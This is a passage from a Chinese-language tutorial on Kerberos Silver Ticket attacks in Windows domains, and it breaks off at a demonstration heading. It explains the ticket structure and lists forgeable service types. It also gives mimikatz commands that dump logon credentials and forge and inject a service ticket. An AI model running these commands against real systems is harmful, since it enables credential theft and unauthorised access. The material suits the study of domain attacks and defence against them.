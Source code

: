 校验通过后，认证成功，该票据会一直存在客户端内存中。

### 白银票据(Silver Tickets)

白银票据特点:
* 1.不需要与KDC进行交互
* 2.需要目标服务的NTLM Hash



在第三步认证中的Ticket的组成:
```
Ticket=Server Hash(Server Session Key+Client info+End Time) 
```
当拥有Server Hash时，我们就可以伪造一个不经过KDC认证的一个Ticket。

**PS:Server Session Key在未发送Ticket之前，服务器是不知道Server Session Key是什么的。
所以，一切凭据都来源于Server Hash。**

### 伪造白银票据(Silver Tickets)

首先需要导出Server Hash：

```
C:\files>mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt
```
伪造票据:

```
mimikatz “kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt" exit
```

Other：

* kerberos::list #列出票据
* kerberos::purge # 清除票据


由于白银票据需要目标服务器的Hash，所以没办法生成对应域内 所有服务器的票据，也不能通过TGT申请。因此只能针对服务器 上的某些服务去伪造，伪造的服务类型列表如下:

| 服务注释 |服务名 | 
| ------ | ------ |
| WMI | HOST、RPCSS|
| Powershell Remoteing | HOST、HTTP|
| WinRM | HOST、HTTP |
| Scheduled Tasks | HOST|
| LDAP 、DCSync| LDAP|
|Windows File Share (CIFS)|CIFS|
|Windows Remote ServerAdministration Tools| RPCSS、LDAP、CIFS|

### 白银票据(Silver Tickets)演示

